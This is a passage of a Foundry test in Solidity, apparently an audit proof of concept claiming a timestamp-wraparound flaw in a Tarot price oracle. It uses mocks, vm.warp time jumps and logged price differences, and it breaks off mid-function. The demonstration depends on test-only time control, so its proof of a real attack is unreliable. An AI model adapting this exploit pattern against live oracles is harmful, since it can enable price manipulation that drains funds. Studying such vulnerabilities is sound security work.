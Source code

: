 ```solidity

contract TarotOracleTimestampManipulationTest is Test {
    TarotPriceOracle public oracle;
    MockUniswapV2Pair public pair;
    
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function setUp() public {
        // Deploy contracts
        oracle = new TarotPriceOracle();
        pair = new MockUniswapV2Pair();
        
        // Initial setup
        pair.setReserves(1000e18, 2000e18); // 1 token = 2 USD initial price
        pair.setPriceCumulative(0);
        
        vm.startPrank(alice);
        oracle.initialize(address(pair));
        vm.stopPrank();
    }

    function testTimestampManipulationVulnerability() public {
        // Log initial state
        console.log("=== Initial State ===");
        (uint112 reserve0, uint112 reserve1,) = pair.getReserves();
        console.log("Initial Price:", (uint256(reserve1) * 1e18) / uint256(reserve0));
        
        // Fast forward to meet MIN_T requirement (1200 seconds)
        vm.warp(block.timestamp + 1200);
        
        // Alice gets a legitimate price reading
        vm.startPrank(alice);
        (uint224 price1, uint32 T1) = oracle.getResult(address(pair));
        console.log("=== Alice's Normal Price Reading ===");
        console.log("Price:", price1);
        console.log("Time elapsed:", T1);
        vm.stopPrank();
        
        // Bob exploits timestamp manipulation
        vm.startPrank(bob);
        
        // Manipulate timestamp to wrap around 2^32
        uint256 manipulatedTime = type(uint32).max + 1200;
        vm.warp(manipulatedTime);
        
        // Update reserves to simulate price change
        pair.setReserves(1000e18, 3000e18); // Price changed to 3 USD
        pair.setPriceCumulative(2e18 * 1200); // Simulated cumulative price
        
        console.log("=== Bob's Manipulated State ===");
        console.log("Manipulated timestamp:", manipulatedTime);
        
        // Try to get price after manipulation
        (uint224 price2, uint32 T2) = oracle.getResult(address(pair));
        console.log("Manipulated Price:", price2);
        console.log("Manipulated Time elapsed:", T2);
        
        vm.stopPrank();
        
        // Demonstrate the vulnerability
        console.log("=== Vulnerability Impact ===");
        console.log("Price difference:", int256(uint256(price2)) - int256(uint256(price1)));
```